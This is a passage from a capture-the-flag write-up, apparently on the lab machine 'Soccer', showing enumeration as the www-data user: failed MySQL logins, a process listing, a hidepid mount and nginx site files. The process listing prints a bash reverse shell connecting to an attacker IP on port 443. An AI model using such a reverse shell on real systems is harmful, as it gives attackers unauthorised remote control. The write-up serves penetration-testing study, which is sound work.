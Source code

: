 ```

www-data@soccer:/$ mysql -p 3306
Enter password: 
ERROR 1045 (28000): Access denied for user 'www-data'@'localhost' (using password: YES)
www-data@soccer:/$ mysql -p 33060
Enter password: 
ERROR 1045 (28000): Access denied for user 'www-data'@'localhost' (using password: YES)

```

It’s hard to verify any of this as www-data can only read it’s own processes:

```

www-data@soccer:/$ ps auxww
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
www-data    1089  0.0  0.1  54080  6176 ?        S    17:28   0:03 nginx: worker process
www-data    1090  0.0  0.1  54080  6492 ?        S    17:28   0:04 nginx: worker process
www-data    2385  0.0  0.0   2608   532 ?        S    18:50   0:00 sh -c bash -c "bash -i >& /dev/tcp/10.10.14.6/443 0>&1"
www-data    2386  0.0  0.0   3976  2844 ?        S    18:50   0:00 bash -c bash -i >& /dev/tcp/10.10.14.6/443 0>&1
www-data    2387  0.0  0.0   4108  3484 ?        S    18:50   0:00 bash -i
www-data    2389  0.0  0.0   2636  2000 ?        S    18:50   0:00 script /dev/null -c bash
www-data    2390  0.0  0.0   2608   596 pts/1    Ss   18:50   0:00 sh -c bash
www-data    2391  0.0  0.0   4108  3596 pts/1    S    18:50   0:00 bash
www-data    2404  0.0  0.0   5892  2904 pts/1    R+   18:51   0:00 ps auxww

```

That is because `/proc` is mounted with `hidepid=2`:

```

www-data@soccer:/$ mount | grep ^proc
proc on /proc type proc (rw,nodev,relatime,hidepid=2)

```

#### nginx

There’s nothing else of interest in the system root or `/opt` or `/srv`. I’ll look at how nginx is configured. There are two site files in `/etc/nginx/sites-enabled`:

```

www-data@soccer:/etc/nginx/sites-enabled$ ls
default  soc-player.htb

```

`default` set up the redirect to `soccer.htb`:

```

server {
        listen 80;
        listen [::]:80;
        server_name 0.0.0.0;
        return 301 http://soccer.htb$request_uri;
}

```
